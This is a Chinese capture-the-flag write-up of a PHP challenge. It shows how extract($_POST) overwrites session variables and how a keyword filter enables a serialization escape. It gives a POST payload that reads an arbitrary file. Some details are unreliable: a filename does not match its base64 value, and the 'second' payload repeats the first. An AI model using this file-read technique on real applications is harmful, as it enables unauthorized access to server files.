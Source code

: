 # \[安洵杯 2019]easy\_serialize\_php

## \[安洵杯 2019]easy\_serialize\_php

## 考点

* 代码审计
* extract对session进行变量覆盖
* php反序列化逃逸

## wp

给了源码，先搞明白代码的逻辑

filter 函数将 `$img` 中含有的 数组中的元素 替换为 空，正则为 `/php|flag|php5|php4|fl1g/i`

```php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
```

GET传入`f`参数作为`function`，然后给session初始化，看到 `extract($_POST);` 说明有变量覆盖

```php
$function = @$_GET['f'];
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
extract($_POST);
if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}
```

传入`img_path`，如果`img_path`为空，就`base64_encode`字符串`guest_img.png`否则就先`base64_encode` `img_path` 再 sha1 加密

```php
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}
```

然后就是对 session 进行序列化并执行 filter 函数，这里就会存在字符逃逸了

```php
$serialize_info = filter(serialize($_SESSION));
```

最后是对 `$_GET['f']` 的判断，执行不同功能

```php
if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

提示看phpinfo，在里面发现`auto_append_file d0g3_f1ag.php`，说明要看d0g3\_f1ag.php。且`session.serialize_handler`为`php`

![](<../../.gitbook/assets/image (27) (1) (1) (1).png>)

现在的目的很明确，就是要读取`d0g3_f1ag.php`这个文件，利用逃逸使 session 中的 img 字段为 `ZDBnM19mMWFnLnBocA==` 即 `base64_encode(d0g3_f1ag.php)` ，然后在 `show_image` 中读取。

由于 `extract($_POST)` 的存在，可以利用变量覆盖修改 `$_SESSION["user"]`，`$_SESSION['function']` 和 `$function`，或者是在 `_SESSION` 中插入参数

先看一个正常的 session 文件经过序列化之后的结果，user 和 function 字段是可控的 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:10:"show_image";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这里就有两个位置可以逃逸，先看一下 function 这里 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:7:"`<mark style="color:red;">`aphpphp`</mark>`";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

filter 处理之后 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:7:"`<mark style="color:red;">`a";s:3:`</mark>`"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

我们的目标如下，发现只有 function行不通，覆盖掉 img 字段后，无法控制 object 的注入，就考虑结合 user 一起 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:39:"`<mark style="color:red;">`a";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==`</mark>`";s:6:"object";s:6:"inject";}`

变成如下这样 {1} {2} 为可控输入，要注入对象的话，{2} 的内容长度一定会大于 10，所以考虑覆盖掉 `";s:8:"function";s:10:"` ，长度为 23，扩展成 3 或 4 的倍数( 根据 filter 函数)，就是 `";s:8:"function";s:10:"a`

`a:3:{s:4:"user";s:5:"`<mark style="color:red;">`{1}`</mark>`";s:8:"function";s:10:"`<mark style="color:green;">`{2}`</mark>`";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这就变成这个样子 `a:3:{s:4:"user";s:24:"`<mark style="color:red;">`flagflagflagflagflagflag`</mark>`";s:8:"function";s:10:"a{2}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

经过 filter 函数处理

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark>`{2}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

然后就是 {2} 的输入内容，要让 img 字段为 `ZDBnM19mMWFnLnBocA==` 即 `base64_encode(f1ag_a8f7b5e6.php)` ，还要闭合前面的 `"`，那么 {2} 就是 `";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";`

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这样还存在问题，黄色部分的`";` 如何处理，可以结合 php 反序列化在`}`后的数据将直接被丢弃这个特点，直接构造一个结束符。{2} 为 `";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这还有一个问题，这个反序列化之后的数组应该有 3 个元素，这样构造只剩下 2 个，这就需要再加一个元素，随便加即可

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

payload

```
POST
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}&function=show_image
```

![](<../../.gitbook/assets/image (9).png>)

再读取`/d0g3_fllllllag`，payload

```
POST
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}&function=show_image
```

## 小结

1. extract对session进行变量覆盖的条件是`session_start`在`extract`之前，参考[bestphp's revenge](bestphps-revenge.md)。
